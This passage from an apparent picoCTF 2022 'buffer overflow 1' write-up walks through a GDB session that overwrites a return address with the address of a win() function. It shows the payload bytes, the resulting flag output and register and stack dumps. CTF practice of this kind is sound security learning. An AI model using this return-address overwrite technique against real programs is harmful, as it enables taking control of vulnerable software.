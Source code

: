 ```c
0x4f4c4548 in ?? ()
```

- Now we need to substitute in the address of the win() function, so we'll need to change the way we're interacting with the program a bit and pipe our string so we can send the bytecode across.  For example: `gdb-peda$ run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3AbHELO")` gives the same results as the above.  Now we can change the last 4 bits to the win() address we found earlier (0x080491f6), in little endian format.  Our full input to GDB becomes:  `run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"`

```c
gdb-peda$ run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08")
Starting program: /home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08")
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{test_flag}

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x13 
EBX: 0x41326241 ('Ab2A')
ECX: 0x13 
EDX: 0xffffffff 
ESI: 0x1 
EDI: 0x80490e0 (<_start>:       endbr32)
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffd0b4 --> 0xffffd184 --> 0xffffd334 ("/home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln")
EIP: 0x0
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x0
[------------------------------------stack-------------------------------------]
0000| 0xffffd0b4 --> 0xffffd184 --> 0xffffd334 ("/home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln")
0004| 0xffffd0b8 --> 0xffffd18c --> 0xffffd370 ("SHELL=/bin/bash")
0008| 0xffffd0bc --> 0x3e9 
0012| 0xffffd0c0 --> 0xffffd0e0 --> 0x1 
0016| 0xffffd0c4 --> 0x0 
0020| 0xffffd0c8 --> 0x0 
0024| 0xffffd0cc --> 0xf7ddb905 (<__libc_start_main+229>:       add    esp,0x10)
0028| 0xffffd0d0 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000 in ?? ()
```

- We can see that this time, we've successfully overwrote the return address with the win() function and the local flag is returned before the program crashes and exits. 

- Now we can write some code that will interact with the network service and get the real flag.  An easy way to do this, and again one that will work more generally, is to use python pwntools (which may be installed via `pip3 install pwn`).  
